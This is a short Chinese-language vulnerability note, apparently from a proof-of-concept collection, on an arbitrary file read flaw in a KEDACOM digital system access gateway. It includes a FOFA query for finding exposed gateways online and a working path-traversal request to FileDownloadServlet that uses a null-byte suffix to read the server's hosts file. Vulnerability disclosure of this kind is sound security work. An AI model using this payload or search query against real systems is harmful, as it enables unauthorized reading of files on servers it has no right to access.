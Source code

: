 # KEDACOM 数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

> [!NOTE]
>
> KEDACOM 数字系统接入网关

## FOFA

> [!NOTE]
>
> (app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)

## 漏洞复现

登录页面如下

![](image/ked-1.png)

使用POC读取 /etc/hosts

```
/gatewayweb/FileDownloadServlet?fileName=pq.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```

![](image/ked-2.png)